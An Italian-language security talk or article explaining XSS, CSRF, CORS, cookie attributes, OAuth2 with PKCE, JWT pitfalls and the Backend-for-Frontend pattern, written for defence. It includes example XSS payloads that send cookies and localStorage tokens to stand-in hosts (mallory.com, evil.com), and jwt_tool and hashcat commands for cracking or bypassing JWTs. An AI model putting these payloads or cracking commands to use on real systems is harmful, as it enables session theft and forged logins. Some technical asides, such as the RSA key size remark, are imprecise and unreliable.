

# Il Browser che sapeva troppo

## Introduzione

Allora, allora, allora, allora

Oggi vi volevo portare un po di argomenti relativi alla sicurezza ed autenticazione, stando abbastanza vicini al mondo del browser come argomento.
Non mi concentrero' sugli attacchi hollywoodiani con gli hacker incappucciati, ma su un qualcosa di piu basilare. Parleremo di molti concetti di base prima e solo dopo parliamo di autenticazione, in particolare di un pattern di autenticazione che sta prendendo piede in quanto risponde a tantissimi criteri di securezza:

Perche' diventa tanto importante conoscere queste basi? iu di pima, perche con gli agenti AI questa conoscenza man mano si sta perdendo lato umano
e si sta trasferendo di piu verso una conoscenza della macchina, ed ultimamente ho visto gli automatismi che hanno creato certe aziende che usano per
bucare l'autenticazione che mi hanno un po shokato, migiandi di scansioni automatiche delle richieste e se c'e' un buco, lo trovano.

Fatta questa premessa, oggi quindi vedremo:

- Come si rubano i token?
- Perché HTTPS non basta per essere sicuri?
- Un framework FE X ci protegge davvero da XSS?
- CORS protegge veramente dalle richiesta provenienti da origini inaspettate?
- Se localstorage, session storage, memoria js non sono sicuri per un token, lo abbiamo sentito tutti tantissime volte, quale e' il posto sicuro?
- Cosa c'entra OAuth2 con tutto questo?
- Cos'è PKCE?
- Ed infine il Pattern Backend for Frontend

## Core

### Cross-Site Scripting

Partiamo dalle cose piu banali: Cross-Site Scripting. È uno degli attacchi più preistorici del web.

Il concetto è semplice: un attaccante riesce a iniettare JavaScript malevolo nel'applicazione.
Può essere attraverso:

- un campo di input non sanitizzato
- un parametro URL
- un commento in un forum
- un messaggio in una chat
- un nome utente o profilo
- un titolo di un post o articolo
- header HTTP manipolati
- notifiche o email
- widget di terze parti
- dipendenze npm con codice malevolo
- estensioni browser maligne
- redirect URL non validati
- qualsiasi cosa che finisce renderizzata nel browser senza essere escapata

Cosa può fare questo script? Tutto quello che può fare JavaScript:

- leggere i cookie
- accedere al localStorage
- fare richieste HTTP
- modificare il DOM
- rubare token di autenticazione
- installare keylogger.

```html
<script>
  fetch("https://mallory.com/steal?data=" + document.cookie);
</script>
```

Lo stesso esempio che vediamo sompra come snippet lo possiamo avere non solo per o coockie, ma anche per un bearer classico dentro al javascript. Quindi la prima premessa e' questa:

> Qualsiasi dato accessibile a JavaScript è accessibile a un attaccante tramite XSS.

**Framework moderni e XSS:**

React, Vue, Angular escapano automaticamente il contenuto, riducendo il rischio XSS. Ma non lo eliminano completamente:

- `dangerouslySetInnerHTML` in React
- `v-html` in Vue
- Librerie di terze parti vulnerabili, un qualcosa su cui noi non abbiamo controllo
  - Possono essere ataccate o essere malevole loro stesse

Quindi di base dire tanto uso react, non avro mai una XSS, e' profondamente sbagliato.

**Esempio dangerouslySetInnerHTML:**

Perche uno sviluppatore potrebbe essere atratto dal usare dangerouslySetInnerHTML? Gia il nome dovrebbe par pensare due volte, no? In realta degli scenari ci sono, ad esempio puo essere convertire un contenuto markdown in html. Come fa ChatGPT ad esempio. Oppure potrebbe essere il rendering delle email, sempre in html.

**Casi reali:**

- **British Airways (2018)**: Script malevolo iniettato tramite dipendenza compromessa. 380.000 carte di credito rubate.
- **Magecart attacks**: Migliaia di e-commerce colpiti da script iniettati che rubano dati di pagamento.

**Conclusione:**
I danni che puo fare l'XSS sono tanti, io mi concentrero concentrero soprattto sul tema della autenticazione. Come facciamo a prevenire attacchi XSS su quella? La difesa principale sarebbe non memorizzare dati sensibili in posti accessibili a JavaScript. In questa maniera se un attaccante prova ad accederci banalmente non puo leggere nulla. Prima di passare al come, vediamo un'altro attacco prima.

### Cross-Site Request Forgery

CSRF è altrettanto preistorico come XSS, ma un po più subdolo. Non richiede di iniettare codice nel'app. L'attaccante crea una pagina malevola su un altro dominio e sfrutta il fatto che il browser invia automaticamente i cookie con ogni richiesta.

```html

```

Scenario classico: sei loggato su yourapp.com. Visiti mallory.com (magari perché hai cliccato su un link in una email di phishing). La pagina evil.com contiene un form nascosto che fa una POST a yourapp.com/api/delete-account.

Il browser invia automaticamente i cookie di autenticazione dell'utente con quella richiesta. Il server vede una richiesta autenticata e... cancella l'account.

Questo e' solo un esempio ma si puo tradurre in:

- Account cancellati
- Soldi trasferiti
- dati modificati
- e tanto altro

**"Ma i CORS non proteggono da questo?"**

Una domanda spontanea potrebbe essere questa: non ci dovrebbero proteggere i cors da attacchi fatte con le richieste cross site? o meglio cross origin?

Sfortunatamente no, o non del tutto. CORS è un meccanismo diverso che protegge la **lettura** delle risposte cross-origin, non l'**esecuzione** delle richieste.

**Passo indietro: Come funzionano i CORS?**

Partiamo dalla **Same-Origin Policy (SOP)**:

SOP dice: "JavaScript che sta su `example.com` non può leggere risposte da `api.example.com`"

A volte pero abbiamo bisogno di farlo, banalmente quando il be ed il fe stanno su origini doverse.
Qui entra **CORS (Cross-Origin Resource Sharing)**. E' un rilassamento della SOP, quindi e' meno restrittivo:

**Come funziona**

1. **Simple Request** (GET, POST con content-type semplice):

```txt
Browser: "Faccio richiesta da example.com a api.example.com"
Browser → Server: GET /data
Server → Browser: 200 OK, Access-Control-Allow-Origin: https://example.com
Browser: "Ok, il server permette. JavaScript può leggere la risposta"
```

2. **Preflight Request** (richieste complesse: PUT, DELETE, header custom, etc.):

```txt
Browser: "Prima chiedo il permesso con OPTIONS"

Browser → Server: OPTIONS /data
                  Origin: https://example.com
                  Access-Control-Request-Method: DELETE
                  Access-Control-Request-Headers: Authorization

Server → Browser: 200 OK
                  Access-Control-Allow-Origin: https://example.com
                  Access-Control-Allow-Methods: DELETE, GET, POST
                  Access-Control-Allow-Headers: Authorization
                  Access-Control-Max-Age: 86400

Browser: "Permesso concesso.

Browser → Server: DELETE /data
                  Origin: https://example.com
                  Authorization: Bearer token

Server → Browser: 200 OK
                  Access-Control-Allow-Origin: https://example.com
```

**Chi legge gli header CORS?**

Il **browser**. Il server invia gli header, ma è il browser che decide se JavaScript può leggere la risposta.

**Cosa fa il browser:**

1. Vede che JavaScript sta facendo una richiesta cross-origin
2. Invia la richiesta al server
3. Riceve la risposta con header CORS
4. Controlla `Access-Control-Allow-Origin`
5. Se match → JavaScript può leggere la risposta
6. Se no match → Blocca l'accesso, JavaScript vede errore CORS

Quando `evil.com` fa una richiesta a `yourapp.com`:

- La richiesta viene **eseguita** dal server
- Il server **processa** l'azione (cancella account, trasferisce soldi)
- Il browser **blocca** solo la lettura della risposta da parte di `evil.com`

Si... anche la POST in certe configurazioni

**Protezioni contro CSRF:**

Ci sono metodi alternativi storici ormai, come CSRF-Token ma secondo me ormai ci sono metodi piu facili ed eleganti, ad esempio i Coockie SameSite Strict

- `Strict`: Cookie mai inviato da altri siti
- `Lax`: Cookie inviato solo su navigazioni top-level GET
- `None`: Cookie sempre inviato

**Distinzione importante:**

- **Bearer token in header Authorization**: Vulnerabile a XSS, immune a CSRF (header non inviati automaticamente)
- **Cookie HTTP-only con SameSite=Strict**: Immune a XSS, immune a CSRF

### Man in the Middle

Man-in-the-Middle è esattamente quello che sembra, cioe qualcuno si mette in mezzo tra noi ed il server.

Può succedere su reti WiFi pubbliche non sicure e vede tutto il traffico HTTP in chiaro.

Non e' cosi difficile da fare come si potrebbe pensare in realta'. E non e' neanche cosi improbabile in realta'.

**Scenari comuni:**

**1. WiFi pubblico non sicuro**

```txt
Caffetteria, aeroporto, hotel
→ Traffico non crittografato visibile a chiunque sulla rete
```

**2. DNS Poisoning**

```txt
Attaccante modifica DNS
yourapp.com → IP dell'attaccante invece del server reale
```

**3. Router compromesso**

```txt
Malware sul router di casa/ufficio
Tutto il traffico passa attraverso l'attaccante
```

La soluzione: HTTPS, cripta tutto il traffico tra browser e server. Anche se qualcuno intercetta i pacchetti, vede solo dati crittografati.

**Ma HTTPS non basta da solo:**

Fino a qui probabilmente ho detto cose abbastanza banali, ma ci basta HTTPS?.
se poi i tuoi cookie non hanno il flag `secure: true`. Senza quel flag, il browser potrebbe inviare il cookie anche su connessioni HTTP, e lì l'attaccante può intercettarlo.

Questo per dire che cosa? Come vedete come questi attacchi sono interconnessi. Non possiamo proteggerci da uno solo unando come assunzione solo una tecnologia come:

- tanto uso React
- tanto sono in HTTPS
- tanto ho CORS
- tanto gli utenti sono in VPN

Non esiste un parametro unico che settato quello siamo sicuri su tutti i fronti.

La soluzione alla fine e' una specifica configurazione di vari parametri di tutte queste aree.

### Storage Sicuro

Ok, qua cominciamo a mettere i primi pezzi insieme. Dove mettiamo quindi i dati sensibili?

**localStorage vs sessionStorage vs Cookies**

| **Storage**      | **Accessibile da JS** | **Vulnerabile a XSS** | **Inviato automaticamente** | **Scadenza**  |
| ---------------- | --------------------- | --------------------- | --------------------------- | ------------- |
| localStorage     | Sì                    | Sì                    | No                          | Mai (manuale) |
| sessionStorage   | Sì                    | Sì                    | No                          | Chiusura tab  |
| Cookie normale   | Sì                    | Sì                    | Sì                          | Configurabile |
| HTTP-only Cookie | No                    | No                    | Sì                          | Configurabile |

**Perché localStorage e session storage sono pericolosi?:**
Qualsiasi script può leggerlo:

```javascript
const stolen = localStorage.getItem("access_token");
fetch("https://evil.com/steal?token=" + stolen);
```

Chi può eseguire questo codice?

- Script iniettato tramite XSS
- Librerie di terze parti (analytics, chat widgets, etc.)
- Dipendenze npm compromesse
- Browser extensions malevole

**La soluzione: HTTP-only Cookies**

Quando un cookie ha `HttpOnly=true`, il browser:

- Lo memorizza normalmente
- Lo invia automaticamente con le richieste HTTP
- Non lo espone a JavaScript in nessun modo

Anche con un attacco XSS riuscito, l'attaccante non può leggere cookie.

**Limitazioni:**

HTTP-only cookies sa soli non sono perfetti:

- Vulnerabili a CSRF
- Vulnerabili a MITM
- Non accessibili a JavaScript

### Cookie Attributes

Quindi quale e' l'anatomia di un cookie sicuro?

```javascript
Set-Cookie: access_token=eyJhbG...;
  HttpOnly=true;
  Secure=true;
  SameSite=Strict;
  Path=/;
  Max-Age=3600
```

**Ogni attributo ha uno scopo preciso:**

| Attributo         | Scopo                                     | Protegge da             |
| ----------------- | ----------------------------------------- | ----------------------- |
| `HttpOnly`        | Non accessibile da JavaScript             | XSS                     |
| `Secure`          | Solo su HTTPS                             | MITM                    |
| `SameSite=Strict` | Mai inviato da altri siti                 | CSRF                    |
| `SameSite=Lax`    | Inviato solo su navigazioni top-level GET | CSRF (con compromesso)  |
| `Path=/`          | Valido per tutto il sito                  | Limitazione scope       |
| `Max-Age=3600`    | Scade dopo 1 ora                          | Limitazione esposizione |

Token short-lived limitano il danno in caso di compromissione. Se un attaccante ruba un access token, ha solo 15 minuti per usarlo.
Ogni attributo è un layer di difesa. Insieme creano un cookie che resiste a XSS, CSRF, e MITM.

## OAuth

### OAuth 2.0

**OAuth 2.0: delegare l'accesso senza condividere password**

**I ruoli in OAuth2:**

- **Resource Owner**: L'utente (tu)
- **Client**: L'applicazione che vuole accedere
- **Authorization Server**: Chi gestisce l'autenticazione (Google, Microsoft, Cognito)
- **Resource Server**: L'API con i dati protetti

OAuth2 è il protocollo che permette a un'app di accedere alle tue risorse senza mai vedere la tua password.

Pensate a quando fate "Login con Google" su un sito. Non state dando la vostra password di Google a quel sito. State dicendo a Google: "Autorizza questo sito ad accedere al mio profilo." Google vi fa autenticare (se non lo siete già), vi chiede conferma, e poi dà al sito un token che rappresenta quella autorizzazione.

1. Il sito non vede mai la vostra password di Google
2. L'autorizzazione può essere limitata a specifiche risorse (scopes)

OAuth2 definisce diversi "flows" (flussi) per diversi scenari. Il più comune per le web app è l'Authorization Code Flow, che tra poco vediamo in dettaglio.

Ma prima, una cosa importante: OAuth2 da solo non è sicuro per applicazioni pubbliche (come le SPA). Perché? Perché il client secret non può essere tenuto segreto in un'app che gira nel browser. Chiunque può aprire DevTools e vedere il codice.

Per questo esiste PKCE, che vediamo tra poco. Ma prima, capiamo il flow base.

### Authorization Code Flow

```
1. User → Client: "Voglio fare login"
2. Client → Auth Server: "Redirect a /authorize"
3. User → Auth Server: Login e consenso
4. Auth Server → Client: Redirect con authorization code
5. Client → Auth Server: "Scambia code per token" (+ client secret)
6. Auth Server → Client: Access token + Refresh token
7. Client → Resource Server: API call con access token
```

1. L'utente clicca "Login" sulla vostra app.

2. La vostra app lo redirige all'authorization server (tipo Google) con parametri tipo:
   - `client_id`: identifica la vostra app
   - `redirect_uri`: dove tornare dopo il login
   - `scope`: cosa volete accedere (email, profilo, etc.)
   - `state`: un valore random per prevenire CSRF

3. L'utente fa login sull'authorization server (se non lo è già) e vede una schermata tipo "App X vuole accedere al tuo profilo. Autorizzare?"

4. Se l'utente accetta, l'authorization server lo redirige alla vostra `redirect_uri` con un `code` nell'URL. Questo code è monouso e scade velocemente (tipo 10 minuti).

5. La vostra app (lato server!) prende questo code e fa una richiesta POST all'authorization server per scambiarlo con i token veri. In questa richiesta include:
   - Il `code`
   - Il `client_id`
   - Il `client_secret` (questo è il motivo per cui deve essere server-side!)
   - La `redirect_uri` (per verifica)

6. L'authorization server valida tutto e risponde con:
   - `access_token`: per chiamare le API
   - `refresh_token`: per ottenere nuovi access token quando scadono
   - `id_token`: (se OIDC) con info sull'utente

7. Ora la vostra app può usare l'access token per chiamare le API protette.

Il punto chiave qui è che il client secret non viene mai esposto al browser. Solo il server lo conosce. Questo è sicuro per applicazioni server-side tradizionali.

Ma cosa succede con le Single Page Applications che non hanno un backend? O con le app mobile? Lì non puoi tenere segreto il client secret. Ed è qui che entra PKCE.

### Proof Key for Code Exchange

**Come rendere OAuth2 sicuro senza client secret**

**Il problema:**

- SPA e app mobile non possono tenere segreti
- Authorization code può essere intercettato
- Attaccante potrebbe scambiare il code per token

**La soluzione PKCE:**

```
1. Client genera: code_verifier (random string)
2. Client calcola: code_challenge = SHA256(code_verifier)
3. Client invia code_challenge nell'authorization request
4. Auth Server memorizza code_challenge
5. Client riceve authorization code
6. Client invia code + code_verifier per ottenere token
7. Auth Server verifica: SHA256(code_verifier) === code_challenge
```

PKCE (si pronuncia "pixie") è un'estensione di OAuth2 che risolve un problema fondamentale: come fare OAuth in modo sicuro quando non puoi tenere segreto il client secret.

Il problema è questo: se un attaccante riesce a intercettare l'authorization code (tipo attraverso un malware sul dispositivo o un redirect malevolo), potrebbe usarlo per ottenere i token. Senza client secret, non c'è niente che impedisca questo attacco.

PKCE introduce una challenge crittografica:

1. Prima di iniziare il flusso OAuth, il client genera una stringa random chiamata `code_verifier`. Tipo 43 caratteri random.

2. Il client calcola l'hash SHA-256 di questa stringa, ottenendo il `code_challenge`.

3. Quando fa la richiesta di authorization, il client invia il `code_challenge` (non il verifier!) insieme agli altri parametri.

4. L'authorization server memorizza questo code_challenge associato all'authorization code che sta per generare.

5. Quando il client riceve l'authorization code e lo vuole scambiare per token, deve inviare anche il `code_verifier` originale.

6. L'authorization server calcola SHA-256 del code_verifier ricevuto e lo confronta con il code_challenge memorizzato. Se combaciano, rilascia i token.

Perché questo è sicuro? Perché anche se un attaccante intercetta l'authorization code, non ha il code_verifier. E non può calcolarlo dal code_challenge perché SHA-256 è una funzione one-way.

Il code_verifier non viene mai trasmesso fino al momento dello scambio finale, e a quel punto l'authorization code è già stato usato (sono monouso).

PKCE è ora raccomandato per tutti i client OAuth2, non solo quelli pubblici. È un layer di sicurezza aggiuntivo che non costa nulla implementare.

### State e Nonce

**Due parametri piccoli ma fondamentali**

**State Parameter:**

- Valore random generato dal client
- Inviato nell'authorization request
- Ritornato dall'auth server nel redirect
- Client verifica: state ricevuto === state inviato
- **Previene:** CSRF attacks sul flusso OAuth

**Nonce Parameter:**

- Valore random generato dal client
- Inviato nell'authorization request
- Incluso nell'ID token come claim
- Client verifica: nonce nel token === nonce generato
- **Previene:** Replay attacks dell'ID token

State e nonce sono due parametri che sembrano fare cose simili ma proteggono da attacchi diversi.

**State** è il più importante. Funziona così:

1. Prima di redirigere l'utente all'auth server, generi un valore random (tipo un UUID) e lo salvi (in un cookie HTTP-only con SameSite=lax).

2. Includi questo valore come parametro `state` nell'URL di authorization.

3. L'auth server lo ritorna identico nel redirect di callback.

4. Quando ricevi il callback, verifichi che lo state nell'URL corrisponda a quello che hai salvato.

Perché è importante? Previene un attacco CSRF specifico del flusso OAuth:

Un attaccante inizia un flusso OAuth sul suo browser, ottiene un authorization code, ma invece di completare il flusso, ti inganna a visitare l'URL di callback con quel code. Se non verifichi lo state, il tuo browser completerebbe il flusso e ti ritroveresti loggato come l'attaccante.

Con lo state, questo non funziona perché l'attaccante non può impostare cookie nel tuo browser.

**Nonce** è simile ma per l'ID token:

1. Generi un valore random e lo salvi.
2. Lo includi nell'authorization request.
3. L'auth server lo include come claim nell'ID token.
4. Quando ricevi l'ID token, verifichi che il nonce nel token corrisponda a quello salvato.

Questo previene replay attacks: se qualcuno intercetta un ID token e prova a riusarlo, il nonce non corrisponderà.

Nella pratica, con PKCE, state, nonce, e HTTPS, il flusso OAuth è molto sicuro. Ma solo se implementi tutte queste protezioni. Saltarne una apre vulnerabilità.

## JWT

Allora, siamo quasi alla fine, prima di arrivare al pattern BFF, parliamo un po dei token JWT. Noi usiamo i JWT costantemente nei progetti che trattiamo, sono onnipresenti e probabilmente li conosciamo tutti molto bene, quindi perche parlarne ora? Sfortunatamente anche qua serve essere consapevoli che usare una libreria per la verifica del JWT non basta. Serve essere consci di certi passaggii: abbiamo verificato la firma, perfetto, abbastanza scontato quello. Ma abbiamo verificato anche l'algoritmo usato, il tempo di scadenza, e l'audience?

### JWT Anatomia di un Token

Un JWT ha tre parti separate da punti:

header.payload.signature

**Header:**

```json
{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "key-id-123"
}
```

Metadati sul token:

- `alg`: algoritmo usato per firmarlo
- `typ`: tipo di token
- `kid`: key ID che identifica la chiave specifica usata (utile per key rotation)

**Payload:**

```json
{
  "sub": "user-id-123",
  "email": "user@example.com",
  "iat": 1234567890,
  "exp": 1234571490,
  "iss": "https://auth.example.com",
  "aud": "my-app-client-id"
}
```

I dati veri, chiamati "claims":

- `sub` (subject): ID dell'utente
- `iat` (issued at): timestamp creazione
- `exp` (expiration): timestamp scadenza
- `iss` (issuer): chi l'ha emesso
- `aud` (audience): per chi è destinato

Possiamo anche aggiungere dei claims custom: `email`, `role`, `groups`, etc.

**Signature:** firma crittografica che prova che il token non è stato modificato.

Ogni parte è Base64URL-encoded, non encrypted. Quindi chiunque potrebbe decodificare un JWT e leggere il contenuto. La firma garantisce solo l'integrità, non la confidenzialità. Quindi sarebbe sbagliato mettere dei dati sensibili in un token.

Per corrompere un token serve rifare la firma e farla combaciare con la chiave privata. Alquanto improbabile con le tecniche crittografiche attuali. Come per blockchain, si dice che per romperlo servono miliardi di anni perché non esiste un algoritmo in tempo polinomiale. Tutto sta nel fattorizzare un numero grande in due numeri primi. Non c'è un algoritmo efficiente per farlo. Non vi sto ad annoiare con le formule ed algoritmo di Shor. Vi faccio vedere una cosa carina magari che mi sono ricordato ora: i matematici cercano pattern tra i numeri primi senza riuscirci (vedi spirale di Ulam).

### JWT Vulnerabilities

**1. alg: "none" Attack**

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

Questo mi fa sempre ridere, ma l'ho visto. Token senza firma. Se il server non valida l'algoritmo, accetta qualsiasi cosa.

Il JWT spec permette algoritmo "none" per token non firmati. Alcune librerie li accettano.

Attaccante: prende un JWT valido, cambia l'header in `{"alg": "none"}`, rimuove la firma, modifica il payload (`"role": "admin"`), e lo invia. Se il server non valida esplicitamente l'algoritmo, lo accetta.

CVE-2015-9235 ha colpito la libreria jsonwebtoken di Node.js con questa tecnica.

Serve definire sempre una whitelist di algoritmi. In genere è uno solo e si dovrebbe accettare solo quello:

```javascript
jwt.verify(token, secret, { algorithms: ["RS256"] });
```

Verificare l'algoritmo serve anche per unaltra tipologia di attacchi come il prossimo:
**2. Algorithm Confusion**

Sistema che usa RS256 (asimmetrico). Il server ha la chiave pubblica per verificare i token.

Attaccante cambia l'algoritmo in HS256 (simmetrico) e firma il token usando la chiave pubblica come secret HMAC. Se il server non valida l'algoritmo e usa la stessa chiave per verificare, il token viene accettato.

Funziona perché HS256 usa la stessa chiave per firmare e verificare, mentre RS256 usa chiavi diverse. Se il server usa la chiave pubblica per verificare un token HS256, l'attaccante può creare token validi.

**3. Weak Secrets**

```
secret: "secret123"
```

Se si usa un secret debole, un attaccante può fare brute-force prendendo un JWT valido, prova migliaia di secret comuni, e quando trova quello giusto può creare token validi.

Usando il cloud è tutto autogestito e generato, ma serve sapere che sotto un certo numero di simboli non si dovrebbe scendere. Altrimenti qualche oretta con un tool e la chiave è rotta.

**4. Missing Claim Validation**

Poi ce ne sono tanti altri che secondo me si possono ragruppare in uno solo: missing claim validation. Token scaduti, per altre app, o modificati vengono accettati.

Anche se la firma è valida, devi validare i claims:

- `exp`: il token è scaduto? Se non controlli, token vecchi funzionano per sempre
- `iss`: chi ha emesso il token? Se non controlli, token di altri sistemi potrebbero essere accettati
- `aud`: per chi è il token? Se non controlli, un token per app A potrebbe funzionare su app B
- `sub`: chi è l'utente? Se non controlli, un attaccante potrebbe sostituire token tra utenti

### JWT Attack Tools

Voglio mostrarvi gli strumenti che gli attaccanti usano, perché capire come attaccano aiuta a difendersi meglio.

**jwt.io**

- Decoder online
- Vede header, payload, signature
- Usato per analisi iniziale

Punto di partenza. Sito pubblico dove incolli un JWT e vedi cosa c'è dentro. Tutti lo usano, sviluppatori e attaccanti. Comodo per debugging. Da ricordarsi il fatto che se potete vedere cosa c'è nel token, può farlo anche un attaccante.

**jwt_tool**

```bash
# Dictionary attack
python3 jwt_tool.py <token> -d wordlist.txt

# Algorithm confusion
python3 jwt_tool.py <token> -X a

# Signature bypass
python3 jwt_tool.py <token> -X s
```

Strumento professionale per testare JWT. Script Python che automatizza tutti gli attacchi comuni:

- Prova attacco alg: none
- Testa algorithm confusion
- Fa brute-force del secret con wordlist
- Prova a modificare claims e rigenerare la firma
- Testa key confusion attacks

**Hashcat**

```bash
# Brute-force JWT secret
hashcat -a 0 -m 16500 jwt.txt wordlist.txt
```

Tool di password cracking più potente. Supporta JWT cracking. Se il vostro secret è debole, Hashcat lo trova. Con una GPU moderna, può provare miliardi di combinazioni al secondo.

Questi tool sono pubblici e facili da usare. Non servono competenze avanzate. Se il vostro JWT ha vulnerabilità, qualcuno le troverà. Ma non e' una notizia brutta ma buona, potete usare questi stessi tool per testare il vostro sistema prima che lo faccia un attaccante.

### JWT Best Practices

**Algoritmo esplicito**

Mai fidarsi dell'algoritmo dichiarato nel token. Specificate sempre esplicitamente quali algoritmi accettate. Se usate RS256, accettate solo RS256.

**Secret forte (o meglio, asimmetrico)**

Il secret deve essere cryptographically random e lungo almeno 256 bit. Meglio ancora sarebbe usare algoritmi asimmetrici come quelli RSA da almeno 256. Con questi, la chiave privata sta solo sull'authorization server. I resource server hanno solo la chiave pubblica ed anche se uno solo viene compromesso, l'attaccante non può creare token validi.

**Validazione claims**

Verificare la firma non basta. Ogni claim ha un significato e serve validarli tutti:

- `exp`: il token è scaduto?
- `nbf`: il token è già valido?
- `iat`: quando è stato emesso?
- `iss`: chi l'ha emesso?
- `aud`: per chi è destinato?
- `sub`: chi è l'utente?

**Storage sicuro**

HTTP-only, Secure, SameSite cookies. Non localStorage, non sessionStorage, non cookie normali. HTTP-only cookies.

## BFF

Ok, ora siamo arrivati alla parte che mette in pratica quello che abbiamo visto. Come definiamo un'implementazione che rispetta questi requisiti di sicurezza? Sono tante cose da rispettare, è difficile trovare la quadra. Ma una soluzione c'è.

### Il Problema delle SPA

Ricapitoliamo. Abbiamo parlato di 3 cose:

- Vulnerabilità e storage dei token
- Flusso OAuth
- JWT

Il posto sicuro sono i cookie HTTP-only. Il client secret non può stare a FE. Serve gestire: refresh del token, PKCE, validazione JWT, verifica state e nonce. Anche se potessimo tenere il client secret a FE, vogliamo davvero questa complessità nel frontend? No. Il FE deve solo decidere cosa mostrare, non gestire il flusso OAuth.

**I problemi delle SPA:**

1. **Nessun posto sicuro per il client secret**
   - Tutto il codice è visibile nel browser

2. **Impossibilità di usare HTTP-only cookies**
   - JavaScript non può accedere ai cookie sicuri

3. **Storage insicuro**
   - localStorage → vulnerabile a XSS

4. **Tante librerie da integrare**
   - OAuth client, JWT decoder, token manager, etc.

5. **Implementazione dipendente dal provider**
   - Cognito, Entra, Keycloak hanno API diverse

6. **Token refresh complesso**
   - Gestire timing nel frontend
   - Race conditions tra richieste
   - Stato distribuito tra tab (sessionStorage richiede re-login su ogni tab, localStorage è insicuro)

7. **Flow complesso**
   - State, nonce, PKCE, validazioni... tutto nel frontend

La soluzione: Backend for Frontend. Un backend leggero tra frontend e API. Gestisce OAuth, memorizza token in modo sicuro, fa da proxy. Il frontend diventa semplice: fa solo richieste al BFF.

### BFF Architecture

**Architettura tradizionale (senza BFF):**

```
┌─────────────┐
│   Browser   │
│   (SPA)     │
└──────┬──────┘
       │
       ├─────────────┐
       │             │
       ▼             ▼
┌─────────────┐ ┌─────────────┐
│   Identity  │ │   Backend   │
│   Provider  │ │     API     │
└─────────────┘ └─────────────┘
```

Frontend gestisce OAuth, memorizza token, li invia al backend. Complesso e insicuro.

**Architettura con BFF:**

```
┌─────────────┐
│   Browser   │
│   (SPA)     │
└──────┬──────┘
       │ HTTP requests
       │ (cookies automatici)
       ▼
┌─────────────┐
│     BFF     │
│   (Proxy)   │
└──────┬──────┘
       │
       ├─────────────┐
       │             │
       ▼             ▼
┌─────────────┐ ┌─────────────┐
│   Identity  │ │   Backend   │
│   Provider  │ │     API     │
└─────────────┘ └─────────────┘
```

Frontend fa solo richieste al BFF. BFF gestisce tutto: OAuth, token, proxy.

**Nota sull'implementazione:**

Il BFF non deve essere per forza un proxy separato. Può essere:

- **Proxy standalone** (come questo esempio): funziona con qualsiasi backend, permette migrazione rapida
- **Integrato nel backend**: parte del processo del vostro backend, dipende dal framework
- **Sidecar in Kubernetes**: container separato nello stesso pod

Ho scelto il proxy standalone per avere un riferimento riusabile e mostrare quanto diventano semplici sia FE che BE quando il BFF gestisce l'autenticazione.

**Cosa fa il BFF:**

1. **Gestisce OAuth flow**
   - `/auth/login` → redirect a IdP
   - `/auth/callback` → scambia code per token
   - `/auth/logout` → revoca token

   Il frontend non sa nemmeno cos'è OAuth. Quando l'utente clicca "Login", il frontend fa semplicemente `window.location.href = '/auth/login'`. Il BFF gestisce tutto il flusso: redirect all'identity provider, callback, scambio code per token, validazione, tutto.

2. **Memorizza token in HTTP-only cookies**
   - `access_token`
   - `refresh_token`
   - `id_token`

   I token (access, refresh, ID) vengono memorizzati in HTTP-only cookies. Il frontend non li vede mai, non li tocca mai. Sono gestiti automaticamente dal browser.

3. **Fa da proxy per le API**
   - `/api/*` → proxy a backend
   - Inietta header utente (X-User-Sub, X-User-Email)
   - Gestisce token refresh automaticamente

   Tutte le richieste API passano attraverso il BFF. Il frontend fa `fetch('/api/users')`. Il BFF:
   - Prende i token dai cookie
   - Verifica che siano validi (e li refresha se necessario)
   - Estrae informazioni dall'ID token (sub, email, custom claims)
   - Fa la richiesta al backend vero, iniettando header tipo `X-User-Sub: user-123`
   - Ritorna la risposta al frontend

4. **Semplifica il frontend**
   - Nessuna logica OAuth
   - Nessuna gestione token
   - Solo fetch('/api/...')

Il frontend diventa stupido (in senso buono). Non ha logica di autenticazione, non gestisce token, non sa niente di OAuth. Fa solo richieste HTTP normali. Se la richiesta ritorna 401, significa che l'utente non è loggato. Fine.

### Implementazione

**Multi-provider**: Supporta AWS Cognito, Microsoft Entra ID, e Keycloak. Aggiungere altri provider è questione di implementare un'interfaccia. La logica OAuth è astratta e riusabile.

